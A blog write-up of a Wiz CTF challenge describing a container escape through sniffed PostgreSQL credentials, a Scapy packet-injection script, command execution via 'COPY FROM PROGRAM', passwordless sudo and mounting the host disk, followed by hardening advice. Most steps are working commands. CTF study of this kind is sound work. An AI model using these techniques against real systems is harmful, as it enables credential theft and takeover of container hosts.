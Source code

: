 ```yaml
---
layout: post
title: "Wiz CTF August 2025: PostgreSQL Container Escape"
date: 2025-08-10
categories: [ctf, security]
tags: [ctf, security, container-escape, postgresql, docker, pentesting]
excerpt: "Exploiting network traffic capture, PostgreSQL command execution, and container misconfigurations to achieve a complete container escape and access the host filesystem."
---
```


## Challenge Overview

In this Wiz CTF challenge, I achieved a complete container escape by chaining together network traffic analysis, database exploitation, and container misconfigurations. The attack path involved capturing PostgreSQL credentials from unencrypted network traffic, leveraging database privileges for command execution, and ultimately mounting the host filesystem to retrieve the flag.

## Vulnerabilities Exploited

**Container Escape via Database Exploitation** combining:
- Unencrypted PostgreSQL network traffic
- PostgreSQL `COPY TO/FROM PROGRAM` command execution
- Excessive sudo privileges on database user
- Container access to host block devices

## Attack Steps

### 1. Initial Reconnaissance

I started by exploring the container environment to identify potential attack vectors:

```bash
ps aux
netstat -tunap
```

This revealed an active PostgreSQL connection on port 5432 between containers, which became my primary target.

### 2. Network Traffic Capture and Analysis

I captured the database traffic to extract credentials:

```bash
# Start packet capture in background
tcpdump -i eth0 -s 0 -w /tmp/pgdump.pcap port 5432 &
```

Next, I used Scapy to analyze the traffic and attempt a direct exploitation:

```python
from scapy.all import *
import struct

# Capture PostgreSQL server response
pkts = sniff(count=1, filter="tcp and src host 172.19.0.2 and src port 5432", timeout=10)

if pkts:
    server_pkt = pkts[0]
    my_seq = server_pkt[TCP].ack
    payload_len = len(server_pkt[Raw].load) if server_pkt.haslayer(Raw) else 0
    my_ack = server_pkt[TCP].seq + payload_len
    my_sport = server_pkt[TCP].dport

    # Craft PostgreSQL COPY TO PROGRAM packet
    exploit_cmd = 'sudo cat /flag'
    pg_query = f"COPY (SELECT '') TO PROGRAM '{exploit_cmd}'"
    query_payload = pg_query.encode('utf-8')
    query_length = len(query_payload) + 4 + 1
    pg_packet_data = b'Q' + struct.pack('>I', query_length) + query_payload + b'\x00'

    ip = IP(src="172.19.0.3", dst="172.19.0.2")
    tcp = TCP(sport=my_sport, dport=5432, flags="PA", seq=my_seq, ack=my_ack)
    exploit_packet = ip/tcp/pg_packet_data

    send(exploit_packet, verbose=0)
    print("[+] Direct flag read attempt sent!")
```

While the initial packet injection didn't work directly, I extracted the database credentials from the capture:

```bash
strings /tmp/pgdump.pcap
# Found: user, mydatabase, SecretPostgreSQLPassword
```

### 3. Direct PostgreSQL Connection

With the extracted credentials, I connected to the database:

```bash
psql -h 172.19.0.2 -U user -d mydatabase
# Password: SecretPostgreSQLPassword
```

### 4. PostgreSQL Command Execution and Privilege Discovery

I created a temporary table to capture command output:

```sql
CREATE TEMP TABLE out(line text);

-- Check current privileges
COPY out FROM PROGRAM 'id 2>&1';
SELECT * FROM out; TRUNCATE out;
-- Result: uid=999(postgres) gid=999(postgres)

-- Check sudo capabilities
COPY out FROM PROGRAM 'sudo -l 2>&1';
SELECT * FROM out; TRUNCATE out;
-- Result: (ALL) NOPASSWD: ALL
```

This revealed the postgres user had unrestricted sudo access - a critical misconfiguration.

### 5. Container Escape - Device Discovery

I enumerated available storage devices to identify escape paths:

```sql
-- List block devices
COPY out FROM PROGRAM 'sudo fdisk -l 2>&1';
SELECT * FROM out; TRUNCATE out;
-- Found: /dev/vda (squashfs), /dev/vdb

-- Check current mounts
COPY out FROM PROGRAM 'sudo cat /proc/mounts 2>&1';
SELECT * FROM out; TRUNCATE out;

-- Create mount point
COPY out FROM PROGRAM 'sudo mkdir -p /mnt/host 2>&1';
SELECT * FROM out; TRUNCATE out;
```

### 6. Container Escape - Host Filesystem Access

With access to host block devices, I mounted the host filesystem:

```sql
-- Mount the host root filesystem
COPY out FROM PROGRAM 'sudo mount /dev/vda /mnt/host 2>&1';
SELECT * FROM out; TRUNCATE out;

-- Verify mount
COPY out FROM PROGRAM 'sudo ls -la /mnt/host/ 2>&1';
SELECT * FROM out; TRUNCATE out;

-- Read the flag from host
COPY out FROM PROGRAM 'sudo cat /mnt/host/flag 2>&1';
SELECT * FROM out; TRUNCATE out;
```

**Flag:** `CTF{how_turned_guests_to_hosts}`

## Key Takeaways

This challenge demonstrated a sophisticated container escape chain:

1. **Network Traffic Analysis**: Captured and extracted PostgreSQL credentials from unencrypted network traffic
2. **Database Command Execution**: Leveraged PostgreSQL's `COPY TO/FROM PROGRAM` to execute arbitrary commands
3. **Privilege Escalation**: Exploited misconfigured sudo permissions on the postgres user
4. **Container Escape**: Mounted host block devices to access the underlying filesystem

The attack succeeded because:
- Database traffic was unencrypted and contained credentials
- The postgres user had unrestricted sudo access
- The container had access to host block devices (`/dev/vda`)
- The container ran with sufficient privileges to mount filesystems

### Alternative Methods I Attempted

- **Core Pattern Escape**: Tried `/proc/sys/kernel/core_pattern` for code execution
- **Namespace Escape**: Attempted `nsenter` to join host namespaces
- **Process Tree Analysis**: Explored `/proc/1/root` for host filesystem access

This highlights critical security principles:
- **Network Encryption**: Always encrypt database connections, even between containers
- **Least Privilege**: Service accounts should never have unrestricted sudo access
- **Container Hardening**: Isolate containers from host devices using proper security contexts
- **Device Restrictions**: Use `--device` flags carefully and avoid exposing host block devices
- **Security Monitoring**: Log privileged operations and unusual network patterns